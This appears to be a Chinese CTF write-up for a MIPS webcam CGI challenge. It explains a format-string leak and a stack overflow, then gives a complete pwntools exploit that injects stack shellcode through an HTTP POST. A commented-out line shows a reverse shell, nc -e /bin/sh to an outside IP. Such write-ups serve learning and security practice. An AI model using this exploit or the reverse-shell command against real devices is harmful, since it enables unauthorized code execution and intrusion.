

# easy_webcam

## 文件属性

|属性  |值    |
|------|------|
|Arch  |mipsel|
|RELRO |Full  |
|Canary|off   |
|NX    |off   |
|PIE   |off   |
|strip |yes   |

## 解题思路

static编译还剥符号，有点恶心了，还原符号花了不少时间。boa没剥符号，大约是现成的，
没做改动。大致运行流程是`boa` webserver --转发-> `manager.cgi`这样。

`manager.cgi`首先从环境变量里拿到从boa传来的`Content-Length`，然后读取并解析json，
根据输入的命令和camera id判断：当`camera_id != 2024`时，可借助camera id打格式化字符串，
泄露信息；当`camera_id == 2024 && strstr(operation, "reboot")`时，可借助`operation`打栈溢出。

> [!IMPORTANT]
> cgi是由qemu用户态启动的，内存布局不会变化，并且栈是可执行的，我们可以直接打栈上shellcode。
> 需要注意的是由于各种参数是通过环境变量传进来的，因此浏览器指纹不同，
> 从boa传到`manager.cgi`的环境也不同，栈布局也不同。在攻击的时候要使用同一个环境。
> 一开始我就是先浏览器泄露信息，再python打，就完全打不通。

接下来共攻击思路清晰了：首先控制`camera_id`打格式化字符串，使用%p泄露栈地址，
然后控制`operation`打栈溢出，写shellcode到栈上并跳转执行。

> [!NOTE]
> `manager.cgi`的输出要符合CGI标准才能借由boa传输到我们这里，因此在打开shell是不现实的，
> 因为没法绕过boa直接和shell交互；同时也不能只打印一个flag，因为还要加Content-Type才能传过来。
> 当时flag名字还不一样，需要先`ls`看文件。至于Type，大概不需要json，plaintext应该就可以输出flag了。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'mips'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = 'easy_webcam/html/cgi-bin/manager'

def payload(lo: int):
    global sh
    if lo:
        ip = '127.0.0.1'
        ipfrom = ip
    else:
        ip = '173.41.102.19'
        ipfrom = '174.40.102.172'

    sh = remote(ip, 80)
    if lo:
        stack = 0x2b2aadd1 + 0x1cf - 0x200
        # stack = 0x2b2aaf40
    else:
        # stack = 0x407ffe71 + 0x1ff
        stack = 0x407ffe11 + 0x1cf - 0x200

    # shc = asm(shellcraft.execve('/bin/busybox', ['nc', ipfrom, '14444', '-e', '/bin/sh']))
    shc = asm(shellcraft.execve('/bin/sh', ['sh', '-c', 'echo Content-Type: application/json\necho\nread FLAG < /flag-EA096FE3722C\necho {flag:$FLAG}']))
    # shc = asm(shellcraft.execve('/bin/echo', ['echo', 'Content-Type: application/json\n\n{}']))
    # shc = asm(shellcraft.write(1, 0x4702e0, 31) + shellcraft.write(1, 0x4702e0 + 30, 1) + shellcraft.write(1, 0x470300, 49) + shellcraft.exit())

    def mkRequest(shellcode: bytes) -> bytes:
        part1 = b'POST /cgi-bin/manager.cgi HTTP/1.1\r\n' \
                b'Accept: */*\r\n' \
                b'Accept-Encoding: gzip, deflate\r\n' \
                b'Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6\r\n' \
                b'Cache-Control: no-cache\r\n' \
                b'Connection: keep-alive\r\n' \
                b'DNT: 1\r\n' \
                b'Origin: http://174.40.102.172\r\n' \
                b'Pragma: no-cache\r\n' \
                b'Referer: http://174.40.102.172/\r\n' \
                b'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0\r\n' \
                b'Host: ' + ip.encode() + b'\r\n' \
                b'Content-Length: '
        part2 = b'\r\n' \
                b'Content-Type: application/json\r\n' \
                b'\r\n' \
                b'{"camera_id":"2024","operation":"'
        part3 = b'"}'
        length = len(shellcode) + len(b'{"camera_id":"2024","operation":""}')
        return part1 + str(length).encode() + part2 + shellcode + part3

    sh.send(mkRequest(b'reboot'.ljust(0x44) + p32(stack) + shc))

    # sh.clean()
    sh.interactive()
    sh.close()
```


